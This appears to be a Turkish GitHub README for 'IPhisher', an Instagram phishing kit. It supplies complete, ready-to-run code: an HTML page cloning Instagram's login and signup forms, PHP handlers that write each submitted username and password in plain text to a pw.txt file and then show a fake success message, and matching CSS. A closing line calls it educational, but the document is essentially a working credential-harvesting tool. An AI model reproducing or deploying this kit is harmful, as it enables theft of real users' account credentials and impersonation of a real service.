 # IPhisher
Instagram Phisher
Aşağıdaki HTML ve PHP kod örneği, Instagram klonu olan giriş yap ve kayıt ol sayfalarını oluşturmanıza yardımcı olacaktır. Bu örnekte, kullanıcı adı ve şifre alanlarına girilen veriler, sunucunuzdaki `pw.txt` dosyasına kaydedilecektir. Ancak, bu sadece bir örnektir ve gerçek bir uygulama için daha güvenli bir yöntem kullanmanız önerilir.

HTML (index.html):
```html
<!DOCTYPE html>
<html>
<head>
    <title>Instagram Benzeri Arayüz</title>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>Instagram</h1>
        </div>
        <div class="content">
            <div class="login-form">
                <h2>Giriş Yap</h2>
                <form action="login.php" method="POST">
                    <input type="text" name="username" placeholder="Kullanıcı Adı" required>
                    <input type="password" name="password" placeholder="Şifre" required>
                    <input type="submit" value="Giriş Yap">
                </form>
            </div>
            <div class="register-form">
                <h2>Kayıt Ol</h2>
                <form action="register.php" method="POST">
                    <input type="text" name="username" placeholder="Kullanıcı Adı" required>
                    <input type="password" name="password" placeholder="Şifre" required>
                    <input type="submit" value="Kayıt Ol">
                </form>
            </div>
        </div>
    </div>
</body>
</html>
```

PHP (login.php):
```php
<?php
    $username = $_POST['username'];
    $password = $_POST['password'];

    // pw.txt dosyasına verileri kaydet
    $file = fopen("pw.txt", "a");
    fwrite($file, "Kullanıcı Adı: " . $username . " - Şifre: " . $password . "\n");
    fclose($file);

    // Giriş işlemini gerçekleştirme veya yönlendirme yapabilirsiniz
    // Burada sadece mesaj basılıyor
    echo "Giriş başarılı!";
?>
```

PHP (register.php):
```php
<?php
    $username = $_POST['username'];
    $password = $_POST['password'];

    // pw.txt dosyasına verileri kaydet
    $file = fopen("pw.txt", "a");
    fwrite($file, "Kullanıcı Adı: " . $username . " - Şifre: " . $password . "\n");
    fclose($file);

    // Kayıt işlemini gerçekleştirme veya yönlendirme yapabilirsiniz
    // Burada sadece mesaj basılıyor
    echo "Kayıt başarılı!";
?>
```
CSS (style.css):
body {
    background-color: #fafafa;
    font-family: Arial, sans-serif;
    margin: 0;
    padding: 0;
}

.container {
    width: 400px;
    margin: 100px auto;
    border: 1px solid #ccc;
    background-color: #fff;
}

.header {
    background-color: #f8f8f8;
    padding: 20px;
    text-align: center;
}

.header h1 {
    margin: 0;
}

.content {
    padding: 20px;
}

h2 {
    margin-top: 0;
}

.login-form,
.register-form {
    margin-bottom: 20px;
}

input[type="text"],
input[type="password"] {
    width: 100%;
    padding: 10px;
    margin-bottom: 10px;
    border: 1px solid #ccc;
    border-radius: 3px;
}

input[type="submit"] {
    width: 100%;
    padding: 10px;
    background-color: #3897f0;
    color: #fff;
    border: none;
    border-radius: 3px;
    cursor: pointer;
}

input[type="submit"]:hover {
    background-color: #357ae8;
}


Yukarıdaki örnek, kullanıcı adı ve şifreyi sunucudaki `pw.txt` dosyasına düz bir metin olarak kaydetmeye yarar ve eğitim amaçlı oluşturulmuştur.
